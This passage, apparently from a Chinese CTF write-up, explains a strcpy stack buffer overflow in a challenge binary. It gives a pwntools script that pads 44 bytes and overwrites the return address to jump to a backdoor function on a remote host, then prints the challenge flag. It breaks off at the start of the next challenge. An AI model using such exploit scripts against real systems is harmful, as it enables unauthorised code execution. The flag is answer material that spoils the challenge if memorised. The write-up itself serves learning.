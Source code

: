 ```c
  char dest[40]; // [esp+0h] [ebp-28h] BYREF

  strcpy(dest, src);
  return puts("get!");
}
```

运行时，用户的输入不能直接溢出，但是当执行`strcpy`时，过量的数据会导致`dest`溢出，也就是可利用点：

```python
import pwn
pwn.context.log_level = 'debug'
p=pwn.remote("124.71.97.27",10000)
backdoor_addr=0x080485dd
payload='a'.encode()*(40+4)+pwn.p32(backdoor_addr)

p.sendline(payload)
p.interactive()
```

由此，便可以造成数据溢出，便可以执行后门函数：

![image-20220126193327699](../CTF-images/image-20220126193327699.png)

flag{6d14fb97-deac-44a4-b9be-a50f235fcac3}

## Double Happiness 					

首先，附件加上`.zip`后缀，让`010 Editor`能够识别：
